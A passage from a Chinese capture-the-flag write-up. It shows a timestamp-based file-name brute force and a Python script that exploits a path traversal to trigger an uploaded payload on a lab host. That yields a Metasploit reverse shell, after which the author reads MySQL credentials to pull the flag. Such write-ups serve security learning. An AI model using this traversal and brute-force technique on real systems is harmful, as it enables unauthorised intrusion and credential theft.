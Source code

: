 </div>
&emsp;&emsp;我们要找出真正的文件名，就需要知道`time()`的值，然后枚举`1~100`叠加上去。而`time()`是我们上传的时间的`unix时间戳`，而且要注意是`date_default_timezone_set("PRC")`。

&emsp;&emsp;所以在即将上传前，我们获取一下当前的`unix时间戳`，如：
```php
<?php
date_default_timezone_set("PRC");
$file_true_name = '-webshell';
$file_true_name = time();
echo $file_true_name;
?>
```
&emsp;&emsp;得到：`1521017320`，然后我们写个python脚本暴力跑一下：
```python
# -*- coding:utf-8 -*-

import requests
time = 152101732000
url = 'http://192.168.187.133/index.php?action=../../../../app/adminpic/-haha{}.jpg'
for i in range(10000):
    tmp = time + i
    ul = url.format(tmp)
    html = requests.get(ul).status_code
    if html == 200:
        print(ul)
        break
```
&emsp;&emsp;这里需要注意的是我们的初始值是：`152101732000`，它比时间戳多了`两位`，这是因为时间戳的后面还有`rand(1,100)`，所以我们要考虑进去。

&emsp;&emsp;跑了一会结果就出来了：`http://192.168.187.133/index.php?action=../../../../app/adminpic/-meter152101732256.jpg`，访问后可以看到页面返回正常。并且在`msf`里可以看到shell已经反弹回来。
<div align="center">
    <img src="/images/posts/n1ctf/55.png" />  
</div>

### 拿到flag
&emsp;&emsp;拿到shell后查看了文件，但没有发现`flag`文件。所以，flag应该在数据库中。然后发现了系统的配置脚本`run.sh`。里面暴露了`mysql`的账号密码，我们登陆`mysql`然后查询一下。sql语句如下：
```
use flag;
select * from flag;
```
&emsp;&emsp;可以看到flag已经出来了。
<div align="center">